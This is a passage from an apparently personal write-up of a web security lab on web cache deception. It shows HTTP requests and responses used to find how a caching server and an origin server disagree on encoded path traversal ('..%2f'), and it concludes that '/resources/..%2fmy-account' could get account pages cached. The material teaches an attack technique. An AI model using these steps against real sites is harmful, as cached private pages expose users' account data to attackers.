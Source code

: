 The origin server returns the dynamic profile information, which is stored in the cache. 

### PRACTITIONER Lab: Exploiting origin server normalization for web cache deception
The idea of the lab is to find discrepancies between URL parsers of the caching and origin servers

First of all we need to figure out caching rules that the caching server uses for caching
We start by making the request:
```bash
GET /resources/labheader/js/labHeader.js 
```
In the response we see:
```bash
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 1515
```
The response headers indicate that the response is cached.

So now when we try:
```bash
GET /resources/labheader/aaa/..%2fjs/labHeader.js
```
We get 404 not found which means that the `..%2f` is not decoded and most likely dots are not resolved as path traversal. Because if they were decoded and resolved then we would get:
```bash
GET /resources/labheader/js/labHeader.js 
```

We also try:
```bash
GET /aaa/..%2fresources/labheader/js/labHeader.js
```
And we get a successful response with the contents of the labHeader.js file but the response is not cached:
```bash
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 1515
```
This indicates that the origin server actually resolved `/aaa/..%2fresources/labheader/js/labHeader.js` into `/resources/labheader/js/labHeader.js` and returned a successful response but when that response got to the caching server, the parser on the caching server did not resolve URL to `resources/labheader/js/labHeader.js` it actually read it as `/aaa/..%2fresources/labheader/js/labHeader.js` and did not cache the response

This means that the caching rule is not the following: `cache everything that ends with .js` but rather: `cache everything that starts with /resources`

So now we know that:
- The origin server resolves `..%2f`, i.e. it will interpret `/resources/..%2fmy-account` as `/my-account`
- The caching rule on the caching server: `cache everything when URL starts with /resources`
- The caching server does not resolve `..%2f`, i.e. it will interpret `/resources/..%2fmy-account` as `/resources/..%2fmy-account` but it will cache the response from the origin server because the url starts with `/resources`

